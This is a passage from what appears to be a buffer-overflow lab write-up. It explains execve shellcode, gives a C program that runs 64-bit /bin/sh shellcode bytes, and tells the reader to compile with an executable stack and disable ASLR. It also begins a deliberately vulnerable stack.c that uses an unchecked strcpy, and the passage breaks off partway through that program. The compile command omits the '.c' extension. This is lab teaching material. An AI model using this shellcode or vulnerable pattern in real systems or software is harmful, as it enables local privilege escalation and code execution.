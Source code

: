    ```
3. A few places in this shellcode are worth mentioning. First, the third instruction pushes "//sh", rather than "/sh" into the stack. This is  because we need a 32-bit number here, and "/sh" has only 24 bits.  Fortunately, "//" is equivalent to "/", so we can get away with a double slash symbol. Second, before calling the execve() system call, we need  to store name[0] (the address of the string), name (the address of  the< array), and NULL to the %ebx, %ecx, and %edx registers,  respectively. Line 5 stores name[0] to %ebx; Line 8 stores name to %ecx; Line 9 sets %edx to zero. There are other ways to set %edx to zero  (e.g., xorl %edx, %edx); the one (cdq) used here is simply a shorter  instruction: it copies the sign (bit 31) of the value in the EAX  register (which is 0 at this point) into every bit position in the EDX  register, basically setting %edx to 0. Third, the system call execve()  is called when we set %al to 11 and execute "int $0x80".

1. **For 64bit** 

2. ```c
   /*call_shellcode.c*/
   /*for linux 64bit*/
   /*A program that creates a file containing code for launching shell*/
   #include <stdlib.h>
   #include <stdio.h>
   const char code[] =
     "\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x6a\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05"
     ;
   int main(int argc, char **argv)
   {
     char buf[sizeof(code)];
     strcpy(buf, code);
     ((void(*)( ))buf)( );
   }
   ```

3. More details you can get from [link](http://www.blackhatlibrary.net/Alphanumeric_shellcode#Starting_shellcode_.2864-bit_execve_.2Fbin.2Fsh.29).

Please use the following command to compile the code (don't forget the execstack option):

```shell
$ gcc -z execstack -o call_shellcode call_shellcode
```

#### Steps

1. Initial setup. Disable Address Space Randomization.

2. To create Vulnerable Program, type the following:

   ```c
   /*stack.c*/
   /*This program has a buffer overflow vulnerability.*/
   /*Our task is to exploit this vulnerability*/
   #include <stdlib.h>
   #include <stdio.h>
   #include <string.h>
   int bof(char *str)
   {
     char buffer[12];
     
     /*The following statement has a buffer overflow problem*/
     strcpy(buffer, str);
     return 1;
   }
   int main(int argc, char **argv)
   {
     char str[517];
     FILE *badfile;
     
   ```